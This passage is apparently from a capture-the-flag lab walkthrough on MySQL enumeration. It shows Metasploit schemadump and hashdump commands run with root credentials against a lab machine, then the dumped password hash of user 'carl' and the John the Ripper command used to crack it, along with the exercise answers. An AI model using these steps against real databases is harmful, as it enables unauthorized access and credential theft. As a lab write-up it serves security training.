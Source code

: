 ```bash
msf6 auxiliary(admin/mysql/mysql_sql) > search mysql_schemadump
```

**=> Answer: `auxiliary/scanner/mysql/mysql_schemadump`**

-   Great! Now, you've done this a few times by now so I'll let you take it from here. Set the relevant options, run the exploit. What's the name of the last table that gets dumped?<br />

```bash
msf6 auxiliary(admin/mysql/mysql_sql) > use 0
msf6 auxiliary(scanner/mysql/mysql_schemadump) > set PASSWORD password
msf6 auxiliary(scanner/mysql/mysql_schemadump) > set USERNAME root
msf6 auxiliary(scanner/mysql/mysql_schemadump) > set RHOSTS <MACHINE_IP>
msf6 auxiliary(scanner/mysql/mysql_schemadump) > exploit
```

![Guide image](/images/posts/network-services-2-18.png)
![Guide image](/images/posts/network-services-2-19.png)

**=> Answer: `x$waits_global_by_latency`**

-   Awesome, you have now dumped the tables, and column names of the whole database. But we can do one better... search for and select the "mysql_hashdump" module. What's the module's full name?

```bash
msf6 auxiliary(scanner/mysql/mysql_schemadump) > search mysql_hashdump
```

**=> Answer: `auxiliary/scanner/mysql/mysql_hashdump`**

-   <p>Again, I'll let you take it from here. Set the relevant options, run the exploit. What non-default user stands out to you?<br /></p>

```bash
msf6 auxiliary(admin/mysql/mysql_schemadump) > use 0
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set PASSWORD password
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set USERNAME root
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set RHOSTS <MACHINE_IP>
msf6 auxiliary(scanner/mysql/mysql_hashdump) > exploit
```

![Guide image](/images/posts/network-services-2-20.png)
**=> Answer: `carl`**

-   <p>Another user! And we have their password hash. This could be very interesting. Copy the hash string in full, like: bob:*HASH to a text file on your local machine called "hash.txt". </p><p>What is the user/hash combination string?<br /></p>

```bash
echo "carl:*EA031893AA21444B170FC2162A56978B8CEECE18" >> hash.txt
john hash.txt
```

**=> Answer: `carl:*EA031893AA21444B170FC2162A56978B8CEECE18`**

-   <p>Now, we need to crack the password! Let's try John the Ripper against it using: "<i>john hash.txt</i>" what is the password of the user we found? <br /></p>
